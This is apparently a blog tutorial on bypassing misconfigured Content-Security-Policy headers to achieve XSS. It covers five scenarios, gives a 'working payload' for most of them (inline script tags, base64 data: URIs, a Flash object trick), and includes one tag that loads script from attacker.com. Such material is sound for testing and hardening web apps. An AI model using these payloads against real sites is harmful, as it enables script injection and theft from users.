 Analyze the CSP policy properly. There are few online tools that are very helpful.

1\. [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/)  
2\. [https://cspvalidator.org/](https://cspvalidator.org/#url=https://cspvalidator.org/)

Below is the screenshot of how they evaluate and provide you results.

![](https://miro.medium.com/max/60/1*UqmPG_15m90O6glKsTdvXw.png?q=20)

![](https://miro.medium.com/max/1400/1*UqmPG_15m90O6glKsTdvXw.png)

**Scenario** : **1**

Content-Security-Policy: script-src [https://facebook.com](https://facebook.com/) https://google.com '**unsafe-inline**' https://\*; child-src 'none'; report-uri /Report-parsing-url;

By observing this policy we can say it's damn vulnerable and will allow inline scripting as well . The reason behind that is the usage of unsafe-inline source as a value of script-src directive.

working payload : "/><script>alert(1337);</script>

**Scenario** : **2**

Content-Security-Policy: script-src [https://facebook.com](https://facebook.com/) [https://google.com](https://google.com/) '**unsafe-eval**' data: [http://\*;](https://*;) child-src 'none'; report-uri /Report-parsing-url;

Again this is a misconfigured CSP policy due to usage of unsafe-eval.

working payload : <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>

**Scenario** : **3**

Content-Security-Policy: script-src 'self' [https://facebook.com](https://facebook.com/) [https://google.com](https://google.com/) **https: data \*;** child-src 'none'; report-uri /Report-parsing-url;

Again this is a misconfigured CSP policy due to usage of a wildcard in script-src.

working payloads :"/>'><script src=https://attacker.com/evil.js></script>"/>'><script src=data:text/javascript,alert(1337)></script>

**Scenario**: **4**

Content-Security-Policy: script-src 'self' report-uri /Report-parsing-url;

Misconfigured CSP policy again! we can see object-src and default-src are missing here.

working payloads :<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\\"})))}catch(e) {alert(1337)}//'>  
<param name="AllowScriptAccess" value="always"></object>

**Scenario**: **5**

Content-Security-Policy: script-src 'self'; object-src 'none' ; report-uri /Report-parsing-url;

we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.
